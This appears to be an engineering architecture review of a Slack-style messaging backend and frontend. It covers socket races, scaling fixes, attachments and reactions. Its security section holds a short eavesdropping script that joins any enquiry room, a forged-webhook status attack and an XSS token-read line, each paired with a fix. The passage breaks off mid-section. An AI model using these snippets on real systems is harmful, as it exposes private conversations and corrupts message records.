



# Messaging System — Deep Architecture Analysis

> Reviewed as of 2026-05-19. Written from the perspective of engineering at Slack/Discord/WhatsApp scale.  
> Every issue below has been traced to exact source lines.

---

## ✅ Implemented — Phase 1: Critical Foundation Fixes

**Fixed issues from §5–§8 of the analysis below.**

### Security & Auth
- **OutboundGateway auth** (`outbound.gateway.ts`): Implements `OnGatewayConnection`. JWT verified on every socket connect using `process.env.JWT_SECERET`. Unauthenticated clients receive `auth-error` and are disconnected. `handleJoin` guards against joining without `client.data.userId`.
- **Delivery status regression** (`outbound.service.ts`): Added `STATUS_RANK` guard in `updateDeliveryStatus()`. Uses `updateMany` with `{ deliveryStatus: { in: lowerStatuses } }` so out-of-order webhooks (e.g. stale DELIVERED after READ) are ignored.
- **Twilio webhook validation** (`outbound.controller.ts`): `twilioDelivery` now calls `twilioValidateRequest()` using `TWILIO_AUTH_TOKEN` env var. Returns 403 on invalid signature. Skips check if `TWILIO_AUTH_TOKEN` not set (dev mode).

### Frontend Race Conditions
- **`socket.ts` race condition**: Replaced singleton `let socket` with `connectionPromise` lock. Concurrent callers share one connection attempt. Dynamic `auth` function fetches fresh token on every connection/reconnect — no stale JWT.
- **Room registry**: `joinedRooms` Set auto-rejoins all rooms on socket reconnect. `joinEnquiryRoom()` / `leaveEnquiryRoom()` helper functions exported.
- **ChatView enquiry room**: Now calls `joinEnquiryRoom(activeEnquiryId)` when a thread loads. `outbound:sent` and `outbound:delivery_updated` events are received correctly.
- **ContactList off-without-ref bug**: Handler stored as named function, unregistered with `sock.off(event, namedHandler)`. Effect no longer depends on `search` — uses `searchRef` to get current value without re-registering.
- **Auto-scroll**: Only scrolls on message count increase, not delivery status ticks. `scrollRef` tracks container for bottom detection. Float button "↓ New messages" appears when user is scrolled up.
- **Send semaphore**: `isSendingRef` prevents auto-save from racing with `handleSend`.

### Horizontal Scaling
- **Redis Socket.IO adapter** (`adapters/redis-io.adapter.ts`): New file. Uses `@socket.io/redis-adapter` + `ioredis`. Wired into `main.ts` before CORS. All Socket.IO room broadcasts now work across multiple NestJS instances.

---

## ✅ Implemented — Phase 2: UI Polish & Chat Feel

### Message Grouping
- `buildMessageGroups()` in `ChatView.tsx`: Groups consecutive messages from the same sender/direction within 120 seconds. Each group has position context (`single | first | middle | last`).
- Visual: First bubble in group shows avatar (inbound) or sender name (outbound). Middle/last bubbles get tighter top margins. Corner radius adapts per group position.
- `EnquiryBlock` renders groups instead of individual messages.

### Sticky Date Separators
- `dateSeparatorSticky` CSS class: `position: sticky; top: 0; backdrop-filter: blur(8px)`. Date separators lock to top of scroll area as user scrolls through history.

### Timestamps on Hover
- `.msgFooterHover` CSS: `opacity: 0` by default, `opacity: 1` on `.msgBubble:hover`. Last bubble in a group always shows timestamp (`.msgFooterVisible`). Reduces visual noise.

### Auto-scroll Float Button
- `chatMessagesWrapper` provides `position: relative` context. Float button `↓ New messages` appears when user is scrolled >200px from bottom and new messages arrive. Clicking scrolls to bottom.

### Skeleton Loading
- `skeletonRow` / `skeletonBubble` CSS with shimmer animation. Replaces "Loading messages..." text with 3 animated skeleton bubbles.

### Composer Improvements
- `Ctrl+Enter` sends for Email channel; `Enter` for WhatsApp (was `Enter` for both).
- Drag-drop zone on composer wrapper: `onDragOver` / `onDrop` triggers `addFiles`.
- Clipboard paste: `onPaste` checks `clipboardData.files` and triggers upload.
- Paperclip button: opens hidden `<input type="file">`.

---

## ✅ Implemented — Phase 3: File Attachments (Cloudflare R2)

### Schema
- `AttachmentKind` enum: added `AUDIO`, `VOICE_NOTE`.
- `MessageAttachment`: added `cdnUrl`, `width`, `height`, `durationMs`, `thumbnailKey`, `waveformData`.
- `DraftAttachment`: added `cdnUrl`, `width`, `height`, `durationMs`.
- `ConversationMessage`: added `replyToId` (self-relation), `isDeleted`, `editedAt`, `reactions` relation, `readBy` relation.
- New models: `MessageReaction`, `ConversationMessageRead`, `UserPresence`, `ContactPreference`, `ConversationRead`.
- Migration: `20260519170614_add_reactions_replies_attachments_presence`

### Storage Service
- `backend/src/modules/storage/storage.service.ts`: S3-compatible client via `@aws-sdk/client-s3`. Configured via `R2_ACCOUNT_ID`, `R2_ACCESS_KEY_ID`, `R2_SECRET_ACCESS_KEY`, `R2_BUCKET_NAME`, `R2_PUBLIC_URL`. Same code works on AWS S3 by switching env vars.
- `generateKey()`, `uploadBuffer()`, `getSignedUrl()`, `deleteFile()`, `getCdnUrl()`.

### Upload Endpoints
- `POST /outbound/drafts/:draftId/attachments`: multer in-memory, MIME whitelist, R2 upload, `DraftAttachment` record created. Emits `outbound.attachment_added` event.
- `DELETE /outbound/drafts/:draftId/attachments/:attachmentId`: DB delete + async R2 delete (non-blocking on failure).
- MIME→Kind mapping: `image/*` → IMAGE, `video/*` → VIDEO, `audio/*` → AUDIO, `audio/mp4` → VOICE_NOTE, others → DOCUMENT.

### Frontend Upload
- `frontend/lib/upload.ts`: `uploadAttachment()` uses `XMLHttpRequest` for progress events + `AbortSignal` for cancellation. Per-MIME max size limits.
- `frontend/hooks/useUpload.ts`: Manages upload queue state (`pending|uploading|done|failed`). `addFiles`, `removeFile`, `retryFile`, `clearAll`.
- `frontend/components/messaging/AttachmentPreview.tsx`: Image thumbnails with progress bars, file cards with icons, cancel/retry buttons.
- `InlineComposer` wired: paperclip button, drag-drop, clipboard paste, preview strip, send blocked while uploading.

---

## ✅ Implemented — Phase 4: Message Actions (Reactions, Delete, Edit)

### Backend Endpoints
- `POST /outbound/messages/:messageId/reactions { emoji }`: upsert `MessageReaction`. Returns updated reaction summary. Emits `message.reaction_updated`.
- `DELETE /outbound/messages/:messageId/reactions/:emoji`: remove reaction, emit `message.reaction_updated`.
- `PATCH /outbound/messages/:messageId/delete`: soft delete (`isDeleted = true`). Owner or ADMIN only. Emits `message.deleted`.
- `PATCH /outbound/messages/:messageId/edit { content }`: 15-minute edit window, outbound only, owner only. Emits `message.edited`.

### Socket Events (OutboundGateway)
- `message:reaction_updated` → `{ messageId, enquiryId, reactions }` — room broadcast
- `message:deleted` → `{ messageId, enquiryId }` — room broadcast
- `message:edited` → `{ messageId, enquiryId, content, editedAt }` — room broadcast

### Frontend
- `ThreadMessage` type extended: `reactions`, `isDeleted`, `editedAt`.
- Message bubbles: deleted messages show "🚫 This message was deleted" italic. Edited messages show "edited" label next to timestamp.
- `reactionsBar` / `reactionPill` CSS: pill badges below bubble, hover highlight.
- Socket handlers in ChatView merge all three event types into thread state without re-fetch.

---

## ✅ Implemented — Phase 5: Typing Indicators & Presence

### Backend
- `OutboundGateway`: `typing:start` / `typing:stop` socket messages broadcast `typing:update` to the enquiry room (excluding sender).
- `handleConnection`: upserts `UserPresence { isOnline: true }`, broadcasts `presence:online`.
- `handleDisconnect`: upserts `UserPresence { isOnline: false, lastSeenAt: now }`, broadcasts `presence:offline`.

### Frontend
- `InlineComposer`: emits `typing:start` on first keystroke, debounces `typing:stop` after 3s of idle. Email channel skipped (not real-time). Max 1 start per interval (no per-keystroke spam).
- ChatView: `typing:update` handler with 4s auto-clear timeout per user. Animated 3-dot bounce indicator below messages.

### Scaling
- Typing events are ephemeral — NOT stored in DB. Redis pub/sub via the Socket.IO adapter propagates them across instances correctly.

---

## Table of Contents

1. [System Map](#1-system-map)
2. [Complete Execution Flow Traces](#2-complete-execution-flow-traces)
3. [File-by-File Relationship Graph](#3-file-by-file-relationship-graph)
4. [Architecture Diagrams](#4-architecture-diagrams)
5. [Critical Security Flaws](#5-critical-security-flaws)
6. [Race Conditions](#6-race-conditions)
7. [WebSocket Lifecycle Problems](#7-websocket-lifecycle-problems)
8. [Real-time Sync Problems](#8-real-time-sync-problems)
9. [State Management Problems](#9-state-management-problems)
10. [Database Bottlenecks](#10-database-bottlenecks)
11. [Redis / Queue Issues](#11-redis--queue-issues)
12. [Memory Leaks](#12-memory-leaks)
13. [Horizontal Scaling Blockers](#13-horizontal-scaling-blockers)
14. [Optimistic UI Issues](#14-optimistic-ui-issues)
15. [Reconnection Handling](#15-reconnection-handling)
16. [Presence / Typing / Read Receipt System](#16-presence--typing--read-receipt-system)
17. [Production-Grade Improvements](#17-production-grade-improvements)
18. [Issue Priority Matrix](#18-issue-priority-matrix)

---

## 1. System Map

```
┌─────────────────────────────────────────────────────────────────────────┐
│  FRONTEND (Next.js 16 App Router)                                       │
│                                                                         │
│  page.tsx (dashboard)          ←── Server Component (SSR)               │
│  enquiry/page.tsx              ←── Server Component (SSR)               │
│  enquiry/[id]/page.tsx         ←── Server Component (SSR fetch)         │
│     └── EnquiryDetailClient   ←── Client Component                     │
│                                                                         │
│  app/(dashboard)/layout        ←── Contains ContactList + ChatView      │
│     ├── ContactList.tsx        ←── 'use client', socket listener        │
│     └── ChatView.tsx           ←── 'use client', socket listener        │
│          └── InlineComposer    ←── sub-component, draft + send          │
│                                                                         │
│  lib/socket.ts                 ←── Module singleton Socket.IO client    │
│  app/api/socket/route.ts       ←── Server: reads cookie, returns JWT    │
│  services/messaging/           ←── 'use server' Server Actions          │
│  services/dashboard/           ←── 'use server' Server Actions          │
│  lib/endpoints.ts              ←── URL constants                        │
└─────────────────────────────────────────────────────────────────────────┘
           │ HTTP (Server Actions → apiClient)
           │ WebSocket (Socket.IO)
           ▼
┌─────────────────────────────────────────────────────────────────────────┐
│  BACKEND (NestJS 11, port 3001)                                         │
│                                                                         │
│  outbound.controller.ts   ←── REST: draft CRUD, send, webhooks         │
│  outbound.gateway.ts      ←── WebSocket: room join/leave + broadcast    │
│  outbound.service.ts      ←── Event listener → BullMQ enqueue          │
│  outbound.processor.ts    ←── BullMQ worker: actual send + emit        │
│  channel-router.service.ts←── Picks WhatsApp / Email adapter           │
│  adapters/                ←── whatsapp.adapter.ts, email.adapter.ts    │
│  delivery-tracking.service.ts ← Twilio/SendGrid webhook → status       │
│  enquiry.service.ts       ←── addOutboundMessage, state transitions     │
└─────────────────────────────────────────────────────────────────────────┘
           │ prisma.$transaction / findMany / update
           ▼
┌──────────────────┐    ┌────────────────────────────────────────────────┐
│   PostgreSQL      │    │  Redis                                         │
│                  │    │  ├── BullMQ queue: OUTBOUND_QUEUE              │
│  ConversationMessage   │  └── (NO Socket.IO adapter — in-memory only)  │
│  OutboundDraft   │    └────────────────────────────────────────────────┘
│  Enquiry         │
│  Contact         │
└──────────────────┘
```

---

## 2. Complete Execution Flow Traces

### 2.1 Frontend Socket Connection

```
Browser (ChatView.tsx mounts)
  │
  ├─ useEffect([contactId]) fires
  │   └─ setupSocket()
  │       └─ getSocket()                    [lib/socket.ts:14]
  │           │
  │           ├─ if (socket?.connected) return socket   ← RACE BUG (see §7.1)
  │           │
  │           ├─ fetch('/api/socket')        [GET]
  │           │   └─ app/api/socket/route.ts:20
  │           │       └─ cookies().get('access_token')
  │           │           └─ returns { token: "eyJ..." }
  │           │
  │           └─ io('http://localhost:3001', { auth: { token } })
  │               └─ Socket.IO handshake → NestJS
  │                   └─ (NO JWT VALIDATION IN GATEWAY) ← CRITICAL BUG §5.1
  │
  └─ socket registered, listeners attached
      ├─ sock.on('chat:new-message', onNewMessage)
      ├─ sock.on('outbound:sent', onOutboundSent)
      └─ sock.on('outbound:delivery_updated', onDeliveryUpdated)
      (NOTE: 'enquiry:join' is NEVER called here ← BUG §8.1)
```

### 2.2 Message Sending Flow (Complete)

```
User types → onChange → setBody() + scheduleSave()
                                     │
                                     └─ setTimeout(3000) → auto-save
                                         └─ createDraft OR updateDraft ← RACE §6.1

User presses Enter (or clicks ➤)
  │
  └─ handleSend()                    [ChatView.tsx:527]
      │
      ├─ setSending(true)
      │
      ├─ if (!draftIdRef.current)
      │   └─ createDraft(enquiryId, {...})  ← Server Action
      │       └─ POST /outbound/enquiries/:id/drafts
      │           └─ OutboundController.createDraft()  [outbound.controller.ts:47]
      │               └─ prisma.outboundDraft.upsert({
      │                   where: { enquiryId_channel_createdBy_status: ACTIVE }
      │                   create: { ...fields, expiresAt: +24h }
      │                   update: { body, subject, expiresAt }
      │                  })
      │               └─ returns draft
      │
      ├─ sendDraft(draftIdRef.current!, to)  ← Server Action
      │   └─ POST /outbound/drafts/:id/send
      │       └─ OutboundController.sendDraft()  [outbound.controller.ts:152]
      │           │
      │           ├─ Validates: draft exists, user owns it, ACTIVE status, body not empty
      │           ├─ Resolves recipient: contact.channels.find(c => c.channel === draft.channel)
      │           │
      │           ├─ enquiryService.addOutboundMessage(draft.enquiryId, {...})
      │           │   └─ prisma.$transaction([
      │           │       ConversationMessage.create({ deliveryStatus: PENDING })
      │           │       EnquiryTimeline.create({ type: MESSAGE_SENT })
      │           │       Enquiry.update({ lastActivityAt })
      │           │      ])
      │           │   └─ eventEmitter.emit('message.outbound', { messageId, enquiryId, channel, to, content })
      │           │
      │           ├─ prisma.outboundDraft.update({ status: CLEARED })
      │           └─ returns ConversationMessage
      │
      ├─ Build optimisticMsg (id = sent.id, deliveryStatus: 'PENDING')
      ├─ onMessageSent(optimisticMsg)   ← appended to thread state
      ├─ setBody(''), setSubject('')
      └─ draftIdRef.current = null

                                    [ASYNC — BullMQ]
OutboundService.handleOutbound()    [outbound.service.ts:38]
  └─ @OnEvent('message.outbound')
      └─ outboundQueue.add(JOB_WHATSAPP | JOB_EMAIL, payload, JOB_OPTIONS)
          └─ job enqueued to Redis

OutboundProcessor.process()         [outbound.processor.ts:44]
  └─ handleWhatsApp() or handleEmail()
      │
      ├─ Check message still PENDING (idempotency)
      │
      ├─ channelRouter.send(channel, { to, content })
      │   └─ whatsappAdapter.send() / emailAdapter.send()
      │       └─ Twilio API / SendGrid API
      │
      └─ updateAndEmit(messageId, enquiryId, result)
          ├─ prisma.update({ deliveryStatus: SENT, externalId })
          ├─ eventEmitter.emit('outbound.sent', { messageId, enquiryId, sentAt })
          │   └─ OutboundGateway.onSent()     [outbound.gateway.ts:57]
          │       └─ server.to('enquiry:X').emit('outbound:sent', payload)
          │           └─ ChatView: onOutboundSent() → sets deliveryStatus: 'SENT'
          │             (ONLY if client joined the room — they haven't ← BUG §8.1)
          │
          └─ enquiryService.maybeTransitionOnOutbound()  ← fire-and-forget

                                    [ASYNC — Webhook]
POST /outbound/webhooks/whatsapp/delivery   [outbound.controller.ts:262]
  └─ @Public() ← NO AUTH ← CRITICAL §5.3
      └─ deliveryTracking.handleTwilioDelivery(body)
          └─ mapTwilioStatus(MessageStatus)
          └─ outboundService.updateDeliveryStatusByExternalId(MessageSid, status)
              └─ prisma.findFirst({ where: { externalId: MessageSid } })
              └─ updateDeliveryStatus(msg.id, status)
                  ├─ prisma.update({ deliveryStatus: status })     ← NO STATUS GUARD §6.3
                  └─ eventEmitter.emit('outbound.delivery_updated', {...})
                      └─ OutboundGateway.onDeliveryUpdated()
                          └─ server.to('enquiry:X').emit('outbound:delivery_updated', payload)
                              └─ ChatView: onDeliveryUpdated() → updates ticks
```

### 2.3 Contact List Live Update Flow

```
ContactList.tsx mounts
  │
  └─ useEffect([search]) → setupSocket()
      └─ sock.on('contact-list:update', handler)

[BACKEND — WHERE IS THIS EMITTED?]
  search OutboundGateway: no 'contact-list:update' emit
  search enquiry.service.ts: no 'contact-list:update' emit
  search entire backend: ZERO emitters for 'contact-list:update'

RESULT: The real-time contact list update listener is DEAD CODE.
        The contact list only refreshes via:
        1. Initial load
        2. 300ms debounce on search input
        New messages NEVER bubble up to the contact list sidebar in real-time.
```

### 2.4 DB Write → Redis → Emit → Frontend

```
PostgreSQL write (enquiry.service.ts)
    │
    │ NestJS EventEmitter (in-process, synchronous)
    ▼
OutboundService.handleOutbound()
    │
    │ BullMQ job add (network call to Redis)
    ▼
Redis: OUTBOUND_QUEUE
    │
    │ BullMQ worker poll (separate process or thread)
    ▼
OutboundProcessor.process()
    │
    │ Twilio / SendGrid HTTP call
    ▼
Provider API
    │
    │ Success → DB update → NestJS EventEmitter (in-process)
    ▼
OutboundGateway.onSent()
    │
    │ Socket.IO server.to(room).emit() — IN-MEMORY ADAPTER ONLY
    │ (no Redis pub/sub → broken under horizontal scale ← §13.1)
    ▼
Browser WebSocket
    │
    └── React state update → UI render
```

### 2.5 Reconnect Flow

```
socket.on('disconnect') fires    [socket.ts:47]
  └─ console.log (nothing else)
  
Socket.IO auto-reconnect (reconnectionAttempts: 10)
  └─ Retries with SAME initial auth token [socket.ts:26]
      └─ If JWT expired → auth fails → infinite retry loop ← §15.1
      
Reconnect success:
  └─ socket.on('connect') fires
      └─ console.log (nothing else)
      └─ NO room re-join ← §15.2
      └─ NO missed-message recovery ← §15.3
      └─ UI silently desynced from server state
```

---

## 3. File-by-File Relationship Graph

```
lib/socket.ts
  ├── CONSUMED BY: ChatView.tsx (getSocket)
  ├── CONSUMED BY: ContactList.tsx (getSocket)
  └── PRODUCES: singleton Socket.IO instance

app/api/socket/route.ts
  ├── CALLED BY: lib/socket.ts (fetch '/api/socket')
  └── READS: cookies() → access_token

services/messaging/outbound.service.ts  ['use server']
  ├── CALLED BY: ChatView.tsx → InlineComposer (createDraft, updateDraft, sendDraft)
  ├── CALLS: apiClient → POST /outbound/...
  └── RETURNS: OutboundDraft, OutboundMessage

services/dashboard/conversation.services.ts  ['use server']
  ├── CALLED BY: ChatView.tsx (getConversationThread)
  ├── CALLED BY: ContactList.tsx (getConversations)
  ├── CALLS: apiClient → GET /conversations/...
  └── RETURNS: ConversationThread, ConversationsResponse

backend:
  outbound.controller.ts
    ├── RECEIVES: REST from apiClient (Server Actions)
    ├── USES: OutboundService, EnquiryService, PrismaService, EventEmitter2
    └── EMITS: outbound.draft_saved, outbound.retry_queued (via eventEmitter)

  outbound.service.ts
    ├── LISTENS: @OnEvent('message.outbound')
    ├── USES: PrismaService, EventEmitter2, BullMQ Queue
    ├── ENQUEUES: JOB_EMAIL, JOB_WHATSAPP to OUTBOUND_QUEUE
    └── EMITS: outbound.delivery_updated (via eventEmitter)

  outbound.processor.ts (@Processor)
    ├── DEQUEUES: from OUTBOUND_QUEUE (Redis)
    ├── USES: ChannelRouterService, PrismaService, EventEmitter2, EnquiryService
    └── EMITS: outbound.sent, outbound.failed (via eventEmitter)

  outbound.gateway.ts (WebSocketGateway)
    ├── LISTENS: @OnEvent('outbound.*') — ALL outbound events
    ├── LISTENS: 'enquiry:join', 'enquiry:leave' from clients
    └── EMITS: outbound:sent, outbound:failed, outbound:delivery_updated TO rooms

  channel-router.service.ts
    ├── USES: WhatsAppAdapter, EmailAdapter
    └── ROUTES: MessageChannel → ChannelAdapter.send()

  delivery-tracking.service.ts
    ├── CALLED BY: OutboundController (webhook endpoints)
    ├── USES: OutboundService.updateDeliveryStatusByExternalId()
    └── MAPS: Twilio/SendGrid event names → DeliveryStatus enum

DATA FLOW:
  PostgreSQL ← prisma ← outbound.processor.ts
  PostgreSQL ← prisma ← outbound.service.ts
  PostgreSQL ← prisma ← outbound.controller.ts
  Redis      ← BullMQ ← outbound.service.ts
  Redis      → BullMQ → outbound.processor.ts
  Frontend   ← Socket.IO ← outbound.gateway.ts
  Frontend   → Socket.IO → outbound.gateway.ts (room management)
```

---

## 4. Architecture Diagrams

### 4.1 Outbound Message State Machine



### 4.2 WebSocket Event Flow



### 4.3 Horizontal Scaling Problem



---

## 5. Critical Security Flaws

---

### 5.1 WebSocket Gateway Has No Authentication

**File:** `backend/src/modules/outbound/outbound.gateway.ts:12`

**What breaks:**  
Any unauthenticated HTTP client can open a WebSocket connection to port 3001 and receive all real-time events for any enquiry by simply joining its room.

**Why it breaks:**  
The `@WebSocketGateway()` decorator has CORS configuration but no auth middleware. The frontend sends a JWT in `auth: { token }` during the Socket.IO handshake, but nothing on the server validates it.

Compare: NestJS REST routes use `@UseGuards(CaslGuard)` everywhere. The gateway has zero guards.

**Real-world scenario:**  
A competitor's salesperson discovers the WebSocket endpoint via browser DevTools. They open a script:
```javascript
const io = require('socket.io-client');
const s = io('https://api.yourdomain.com');
s.emit('enquiry:join', { enquiryId: 'any-uuid' });
s.on('outbound:sent', console.log);  // receives all sent messages
```
They now get live notifications of every outbound message to any lead — including pricing and negotiation content.

**Fix:**

```typescript
// outbound.gateway.ts
import { JwtService } from '@nestjs/jwt';
import { WsException } from '@nestjs/websockets';

@WebSocketGateway({ cors: { ... } })
export class OutboundGateway implements OnGatewayConnection {
  constructor(private jwtService: JwtService) {}

  async handleConnection(client: Socket) {
    try {
      const token = client.handshake.auth?.token 
        || client.handshake.headers?.authorization?.replace('Bearer ', '');
      if (!token) throw new WsException('No token');
      
      const payload = await this.jwtService.verifyAsync(token);
      client.data.user = payload; // attach user to socket
    } catch (e) {
      client.emit('auth-error', { message: 'Invalid token' });
      client.disconnect(true);
    }
  }
}
```

---

### 5.2 Room Join Has No Authorization Check

**File:** `backend/src/modules/outbound/outbound.gateway.ts:26`

**What breaks:**  
Any authenticated user can join ANY enquiry room — including enquiries belonging to other users or teams — and receive all real-time events.

**Why it breaks:**  
```typescript
@SubscribeMessage('enquiry:join')
handleJoin(@ConnectedSocket() client: Socket, @MessageBody() data: { enquiryId: string }) {
  const room = `enquiry:${data.enquiryId}`;
  client.join(room);  // No ownership/permission check
```

**Real-world scenario:**  
A SALES user enumerates enquiry UUIDs (visible from the URL bar in the UI) and subscribes to enquiry rooms for colleagues' accounts. They see every outbound message their colleagues send — including commission-sensitive client negotiations.

**Fix:**

```typescript
@SubscribeMessage('enquiry:join')
async handleJoin(@ConnectedSocket() client: Socket, @MessageBody() data: { enquiryId: string }) {
  const userId = client.data.user?.userId;
  
  // Verify enquiry exists and user can read it
  const enquiry = await this.prisma.enquiry.findFirst({
    where: {
      id: data.enquiryId,
      // Check CASL-equivalent: assigned to user, or user is ADMIN/MANAGER
    },
  });
  
  if (!enquiry) {
    throw new WsException('Forbidden');
  }
  
  client.join(`enquiry:${data.enquiryId}`);
}
```

---

### 5.3 Webhook Endpoints Are Unauthenticated

**File:** `backend/src/modules/outbound/outbound.controller.ts:262`

**What breaks:**  
An attacker can POST arbitrary delivery status updates, marking any message as READ, DELIVERED, or FAILED.

**Why it breaks:**  
```typescript
@Post('webhooks/whatsapp/delivery')
@Public()  // no JWT
@HttpCode(HttpStatus.OK)
async twilioDelivery(@Body() body: Record<string, string>) {
  await this.deliveryTracking.handleTwilioDelivery(body);
```

CLAUDE.md explicitly flags this: *"Twilio webhook signature validation missing"*. The attacker doesn't need to know a MessageSid — they can probe with guesses or scrape them from network traffic.

**Real-world scenario:**  
A malicious actor sends `POST /outbound/webhooks/whatsapp/delivery` with `{ MessageSid: "SM...", MessageStatus: "failed" }` for every recently sent message. The UI shows all outbound messages as failed, triggering support alerts and eroding team confidence.

**Fix for Twilio:**

```typescript
import { validateRequest } from 'twilio';

@Post('webhooks/whatsapp/delivery')
@Public()
async twilioDelivery(@Req() req: Request, @Body() body: Record<string, string>) {
  const authToken = this.config.get<string>('TWILIO_AUTH_TOKEN');
  const signature = req.headers['x-twilio-signature'] as string;
  const url = `${this.config.get('APP_URL')}/outbound/webhooks/whatsapp/delivery`;
  
  if (!validateRequest(authToken, signature, url, body)) {
    throw new ForbiddenException('Invalid Twilio signature');
  }
  
  await this.deliveryTracking.handleTwilioDelivery(body);
  return { ok: true };
}
```

---

### 5.4 JWT Token Exposed in API Response

**File:** `frontend/app/api/socket/route.ts:20`

**What breaks:**  
The JWT is returned in a JSON response body, not an HttpOnly cookie. Any JavaScript with XSS access can read it from `fetch('/api/socket').then(r => r.json())`.

**Why it breaks:**  
